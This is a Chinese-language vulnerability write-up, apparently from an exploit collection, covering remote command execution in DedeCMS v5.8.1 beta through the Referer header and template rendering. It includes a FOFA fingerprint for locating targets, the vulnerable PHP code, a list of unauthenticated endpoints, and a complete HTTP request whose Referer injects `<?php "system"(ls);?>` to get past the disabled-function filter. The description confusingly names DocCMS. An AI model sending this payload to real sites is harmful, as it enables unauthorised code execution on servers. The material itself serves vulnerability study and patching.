







# DedeCMS common.func.php 远程命令执行漏洞

## 漏洞描述

DocCMS flink.php 文件存远程命令执行漏洞，攻击者通过漏洞可以执行任意命令

## 漏洞影响

```
DedeCMS v5.81 beta 内测版
```

## FOFA

```
"DedeCMS_V5.8.1"
```

## 漏洞复现

产品页面



查看文件 `include/common.func.php` 的 ShowMsg方法



```
function ShowMsg($msg, $gourl, $onlymsg = 0, $limittime = 0)
{
    if (empty($GLOBALS['cfg_plus_dir'])) {
        $GLOBALS['cfg_plus_dir'] = '..';
    }
    if ($gourl == -1) {
        $gourl = isset($_SERVER['HTTP_REFERER']) ? $_SERVER['HTTP_REFERER'] : '';
        if ($gourl == "") {
            $gourl = -1;
        }
    }

    $htmlhead = "
    <html>\r\n<head>\r\n<title>DedeCMS提示信息</title>\r\n
    <meta http-equiv=\"Content-Type\" content=\"text/html; charset={dede:global.cfg_soft_lang/}\" />
    <meta name=\"viewport\" content=\"width=device-width, initial-scale=1, maximum-scale=1, user-scalable=no\">
    <meta name=\"renderer\" content=\"webkit\">
    <meta http-equiv=\"Cache-Control\" content=\"no-siteapp\" />
    <link rel=\"stylesheet\" type=\"text/css\" href=\"{dede:global.cfg_assets_dir/}/pkg/uikit/css/uikit.min.css\" />
    <link rel=\"stylesheet\" type=\"text/css\" href=\"{dede:global.cfg_assets_dir/}/css/manage.dede.css\">
    <base target='_self'/>
    </head>
    <body>
    " . (isset($GLOBALS['ucsynlogin']) ? $GLOBALS['ucsynlogin'] : '') . "
    <center style=\"width:450px\" class=\"uk-container\">
    
    <div class=\"uk-card uk-card-small uk-card-default\" style=\"margin-top: 50px;\">
        <div class=\"uk-card-header\"  style=\"height:20px\">DedeCMS 提示信息！</div>

    <script>\r\n";
    $htmlfoot = "
    </script>
    
    
    </center>
    
    <script src=\"{dede:global.cfg_assets_dir/}/pkg/uikit/js/uikit.min.js\"></script>
	<script src=\"{dede:global.cfg_assets_dir/}/pkg/uikit/js/uikit-icons.min.js\"></script>
    </body>\r\n</html>\r\n";

    $litime = ($limittime == 0 ? 1000 : $limittime);
    $func = '';

    if ($gourl == '-1') {
        if ($limittime == 0) {
            $litime = 3000;
        }

        $gourl = "javascript:history.go(-1);";
    }

    if ($gourl == '' || $onlymsg == 1) {
        $msg = "<script>alert(\"" . str_replace("\"", "“", $msg) . "\");</script>";
    } else {
        //当网址为:close::objname 时, 关闭父框架的id=objname元素
        if (preg_match('/close::/', $gourl)) {
            $tgobj = trim(preg_replace('/close::/', '', $gourl));
            $gourl = 'javascript:;';
            $func .= "window.parent.document.getElementById('{$tgobj}').style.display='none';\r\n";
        }

        $func .= "var pgo=0;
      function JumpUrl(){
        if(pgo==0){ location='$gourl'; pgo=1; }
      }\r\n";
        $rmsg = $func;
        $rmsg .= "document.write(\"<div style='height:130px;font-size:10pt;background:#ffffff'><br />\");\r\n";
        $rmsg .= "document.write(\"" . str_replace("\"", "“", $msg) . "\");\r\n";
        $rmsg .= "document.write(\"";

        if ($onlymsg == 0) {
            if ($gourl != 'javascript:;' && $gourl != '') {
                $rmsg .= "<br /><a href='{$gourl}'>如果你的浏览器没反应，请点击这里...</a>";
                $rmsg .= "<br/></div>\");\r\n";
                $rmsg .= "setTimeout('JumpUrl()',$litime);";
            } else {
                $rmsg .= "<br/></div>\");\r\n";
            }
        } else {
            $rmsg .= "<br/><br/></div>\");\r\n";
        }
        $msg = $htmlhead . $rmsg . $htmlfoot;
    }
    
    $tpl = new DedeTemplate();
    $tpl->LoadString($msg);
    $tpl->Display();
}

/**
 *  获取验证码的session值
 *
 * @return string
 */
```


这里注意到 当 $gourl 变量为 -1 时调用 ShowMsg方法, 则请求参数 Referer 为用户可控参数



向下看，可以发现可控的变量传入两个方法

```
$tpl = new DedeTemplate();
$tpl->LoadString($msg);
$tpl->Display();
```

追踪方法来到 `include/dedetemplate.class.php` 文件



ParseTemplate() 则是模版渲染的方法，再往下看

```
public function Display()
    {
        global $gtmpfile;
        extract($GLOBALS, EXTR_SKIP);
        $this->WriteCache();
        include $this->cacheFile;
    }
```

追踪一下 `WriteCache()` 方法



看 GetResult() 方法 和 CheckDisableFunctions() 方法

```
public function GetResult()
    {
        if (!$this->isParse) {
            $this->ParseTemplate();
        }
        $addset = '';
        $addset .= '<' . '?php' . "\r\n" . 'if(!isset($GLOBALS[\'_vars\'])) $GLOBALS[\'_vars\'] = array(); ' . "\r\n" . '$fields = array();' . "\r\n" . '?' . '>';
        return preg_replace("/\?" . ">[ \r\n\t]{0,}<" . "\?php/", "", $addset . $this->sourceString);
    }
public function CheckDisabledFunctions($str, &$errmsg = '')
    {
        global $cfg_disable_funs;
        $cfg_disable_funs = isset($cfg_disable_funs) ? $cfg_disable_funs : 'phpinfo,eval,exec,passthru,shell_exec,system,proc_open,popen,curl_exec,curl_multi_exec,parse_ini_file,show_source,file_put_contents,fsockopen,fopen,fwrite';
        // 模板引擎增加disable_functions
        if (!defined('DEDEDISFUN')) {
            $tokens = token_get_all_nl($str);
            $disabled_functions = explode(',', $cfg_disable_funs);
            foreach ($tokens as $token) {
                if (is_array($token)) {
                    if ($token[0] = '306' && in_array($token[1], $disabled_functions)) {
                        $errmsg = 'DedeCMS Error:function disabled "' . $token[1] . '" <a href="http://help.dedecms.com/install-use/apply/2013/0711/2324.html" target="_blank">more...</a>';
                        return false;
                    }
                }
            }
        }
        return true;
    }
```

GetResult() 方法执行后返回的结果通过 CheckDisabledFunctions() 方法过滤后 经过Display() 的 `include $this->cacheFile;`

```
public function Display()
    {
        global $gtmpfile;
        extract($GLOBALS, EXTR_SKIP);
        $this->WriteCache();
        include $this->cacheFile;
    }
```

此时我们就可以通过控制 Referer请求头，来控制模版的渲染，绕过 CheckDisabledFunctions)方法的过滤 造成远程命令执行



通过正则找到受影响且无需身份认证的文件，来进行命令执行

```
/plus/flink.php?dopost=save
/plus/users_products.php?oid=1337
/plus/download.php?aid=1337
/plus/showphoto.php?aid=1337
/plus/users-do.php?fmdo=sendMail
/plus/posttocar.php?id=1337
/plus/vote.php?dopost=view
/plus/carbuyaction.php?do=clickout
/plus/recommend.php
........
```


这里利用没有过滤的双引号绕过 disables 禁止的函数



漏洞请求包

```
GET /plus/flink.php?dopost=save HTTP/1.1
Host:
Accept: */*
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.61 Safari/537.36
X-Requested-With: XMLHttpRequest
Referer: <?php "system"(ls);?>
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Connection: close
```